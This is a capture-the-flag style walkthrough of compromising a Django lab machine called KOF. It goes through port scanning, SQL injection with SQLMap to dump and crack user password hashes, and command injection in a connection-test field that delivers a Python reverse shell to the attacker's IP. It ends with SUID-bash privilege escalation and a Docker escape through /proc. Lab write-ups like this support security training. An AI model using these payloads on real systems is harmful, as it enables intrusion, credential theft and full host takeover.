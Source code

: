 # KOF
![index image](../images/kof/index.png)

## Recon
In the beginning, I used NMAP with the following parameters. I found only ports 22 and 8000 open (it seems to be a Django application running on Linux).
```bash
sudo nmap 172.16.11.225 -Pn -sSVC -T5

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.9.19
|_http-server-header: WSGIServer/0.2 CPython/3.9.19
|_http-title: KOF 2002 Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I performed fuzzing on the Django application using Feroxbuster and discovered three directories: register, panel, and dashboard.
```bash
feroxbuster -u http://172.16.11.225:8000/

found:5       errors:0      
http://172.16.11.225:8000/ 
http://172.16.11.225:8000/register/ 
http://172.16.11.225:8000/panel/ 
http://172.16.11.225:8000/dashboard/
```
![ferox image](../images/kof/ferox.png)

Upon accessing the page, the most prominent feature is a search field that passes the `q` parameter via GET and displays the searched team.
<br>
![q parameter image](../images/kof/q_parameter.png)

When testing this endpoint with SQLMap, it was identified that the database uses SQLite and that the parameter is vulnerable to SQL injection (SQLi).
```bash
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --risk 3 --level
```

![sqlmap 1 image](../images/kof/sqlmap_q1.png)
![sqlmap 2 image](../images/kof/sqlmap_q2.png)

## Exploitation
We can include the `--dbms` sqlite flag to specify that the database in use is SQLite.

To enumerate the database tables, we use the `--tables` option and execute the following arguments: `--dbms sqlite --threads 10`.
```bash
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --tables --threads 10

[12 tables]
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| authentication_teams       |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
| sqlite_sequence            |
+----------------------------+
```

To discover the columns of a table, we use the `-T table_name --columns` option. In our case, we'll retrieve the columns from the `auth_user` table, as we have a `/panel` endpoint where we can attempt to log in.
```bash
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user --columns

Table: auth_user
[11 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date_joined  | datetime |
| email        | varchar  |
| first_name   | varchar  |
| id           | integer  |
| is_active    | TEXT     |
| is_staff     | TEXT     |
| is_superuser | TEXT     |
| last_login   | datetime |
| last_name    | varchar  |
| password     | varchar  |
| username     | varchar  |
+--------------+----------+
```

From the `auth_user` table, we want to extract the `username`, `password`, `is_staff`, and `is_superuser` columns. Most likely, the user with `is_staff` and `is_superuser` set to true will be the admin.
```bash
$ python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user -C username,password,is_staff,is_superuser --dump

Table: auth_user
[3 entries]
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| username | password                                                                                 | is_staff | is_superuser |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| lucas    | pbkdf2_sha256$600000$uK8mOpGqJgz6n8NpSq6sW4$teEmzYbauC23hUiCWchvGVcOxbPkNOIEq4yZ3ZCc2vw= | 0        | 0            |
| sitara   | pbkdf2_sha256$600000$hgmRaAKIjaJXPw15HJtGzM$rcr8QB224t9Rf8e1AKpyfimvWLTJl1r+ZCGTtvKI8X4= | 0        | 0            |
| vanessa  | pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ= | 1        | 1            |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
```

The user "vanessa" is likely the admin. We can use Hashcat to identify the hash type (based on the hash itself, we conclude it’s a PBKDF2-SHA256 from Django). To do this, we extract the hash of the user and save it in a file without an extension, named `hash`. From there, we can attempt to crack the hash using Hashcat with mode `10000` (for PBKDF2-SHA256) and the Rockyou wordlist.
```bash
hashcat --identify hash

The following hash-mode match the structure of your input hash:

    # | Name                                                       | Category
======+============================================================+======================================
10000 | Django (PBKDF2-SHA256)                                     | Framework
```
```bash
hashcat -m 10000 hash /usr/share/seclists/Passwords/rockyou.txt

pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ=:princess1
```

Therefore, the admin password for "vanessa" is `princess1`. Upon accessing the `/panel` endpoint with admin creds, we encounter this page.
<br>
![panel image](../images/kof/panel1.png)

By clicking to generate an IP and then on "Test Connection," we can analyze the request. A POST request is made to the backend with the CSRF, game, vpn, and test_connection parameters. It seems that this feature tests the connection to another host in some way.
<br>
![panel image](../images/kof/panel2.png)

Since the machine doesn't have internet access, it won't be able to reach any public IP. However, if we place a local IP in the `test_connection` parameter, it responds that the connection was successful, and the test indicates that there is a connection.
<br>
![panel image](../images/kof/panel3.png)

What might be happening here is that we are directly passing the IP, and the server is executing some action. We can try to establish a reverse connection to our machine by injecting a ; (since it could be executed in bash) and using Python. Payload:
```bash
;export RHOST="10.0.10.235";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```
<br>
![shell request image](../images/kof/shell_request.png)
![shell image](../images/kof/shell.png)

To upgrade the shell to a full TTY, we can follow these steps:
* Type `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
* Press `Ctrl+Z` to background the shell as a service.
* Type `stty raw -echo && fg`.
* Press `Enter`.
* Finally, type `export TERM=xterm`.

## Post exploitation
At first glance, using `ps aux`, I identified that we are in a Docker environment. I couldn't find the first flag, meaning the first objective is to escalate to root, and the second is to perform a Docker escape.

After running `linpeas` on the server, I found two endpoints to investigate. Upon analyzing this information, we can conclude that `/usr/bin/bash` may be exploitable (it has the SUID bit set).
```bash
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts

-rwsr-xr-x 1 root root 1.3M Apr 23  2023 /usr/bin/bash 

═╣ /proc mounted? ................. Yes
```

```bash
cp /bin/bash /tmp/ #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

By exploiting this, we will escalate privileges to root in order to retrieve the first flag in `/root`.

## Docker escape/breakout
To perform the Docker breakout/escape, I will use the `/proc` endpoint. First, I need to retrieve the Docker process ID by running `ps aux | grep docker`.
<br>
![id process image](../images/kof/id_proc.png)

With this, we can access the Docker process directory, navigate to the root directory, and then escape to the root directory of the host machine running the Docker container. So `cd /proc/2741/root/`.
<br>
![docker breakout image](../images/kof/docker_breakout.png)

Here are the two flags: one for the default root user after privilege escalation (`flag.txt`), and the other for the Docker breakout (`root.txt`).
**Disclaimer**: Docker breakout can be achieved in other ways, such as using Process Injection.
- [Linux Process Injection - W3ndige](https://github.com/W3ndige/linux-process-injection/)
- [7 Ways to Escape a Container - Panoptica](https://www.panoptica.app/research/7-ways-to-escape-a-container)
